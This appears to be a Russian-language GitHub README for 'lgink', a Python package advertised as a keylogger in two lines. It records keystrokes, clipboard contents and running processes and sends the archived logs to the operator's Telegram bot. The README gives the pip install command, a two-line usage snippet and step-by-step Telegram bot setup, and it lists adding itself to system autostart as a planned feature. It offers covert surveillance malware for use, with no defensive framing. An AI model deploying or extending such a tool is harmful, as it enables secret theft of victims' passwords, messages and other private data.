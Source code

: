 [![made-with-python](https://img.shields.io/badge/Made%20with-Python-1f425f.svg)](https://www.python.org/)

# lgink

Кейлогер всего лишь в 2 строки. Отправка в Telegram.

## Описание
`lgink` в данный момент только начинает своё развитие. В будущем его функционал будет расширен.

## Навигация
* [Текущие возможности](#Текущие-возможности)
* [Будущие возможности](#Будущие-возможности)
* [Установка](#Установка)
* [Пример использования](#Пример-использования)
  * [Стандартный](#Стандартный)
* [Настройка Telegram бота](#Настройка-Telegram-бота)
  * [Получение токена](#Получение-токена)
  * [Получение айди](#Получение-айди)

### Текущие возможности
1. Логирование клавиатуры, буфера обмена, запущенных процессов.
2. Отправка собранных данных архивом в Telegram.
3. Выполнение в отдельном потоке.

### Будущие возможности
1. Добавление других логеров.
2. Добавление в автозагрузку системы.
 
## Установка

Установить последнюю версию можно командой:
```
pip install lgink==0.0.1
```

## Пример использования
### Стандартный
```python

from lgink.multilogger import Logger

Logger(token="YOUR_TOKEN", user_id=YOUR_ID, iteration_pause=60).run()
```
Стандартный ```Logger``` запускает все доступные логгеры и отправляет собранные данные архивом вам в Telegram каждый час.

Передаваемые параметры:
* `token` - токен Telegram бота.
* `user_id` - ваш айди Telegram.
* `keyboard` - добавить логер клавиатуры (True/False).
* `clipboard` - добавить логер буфера обмена (True/False).
* `processes` - добавить логер процессов (True/False).
* `special_keys` - добавлять в логи спец клавиши Enter, Shift, Alt  и тд (True/False).
* `processes_pause` - частота проверки запущенных процессов в секундах.
* `iteration_pause` - частота отправки собранных логов в секундах.

## Настройка Telegram бота
### Получение токена
1. Открываем чат с [BotFather](https://t.me/botfather).
2. Прописываем команду ```/newbot```.

<p align="left">
  <a href="">
    <img src="_1.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Прописываем название бота, затем ник с прикладкой ```_bot``` в конце.

<p align="left">
  <a href="">
    <img src="_2.png" width="500px" style="display: inline-block;">
  </a>
</p>

4. Полученный токен вставляем в поле ```"YOUR_TOKEN"``` в скрипте.

### Получение айди
1. Открываем чат с [Get My ID](https://t.me/getmyid_bot).
2. Прописываем команду ```/start```.

<p align="left">
  <a href="">
    <img src="_3.png" width="500px" style="display: inline-block;">
  </a>
</p>

3. Полученный айди вставляем в поле ```YOUR_ID``` в скрипте.
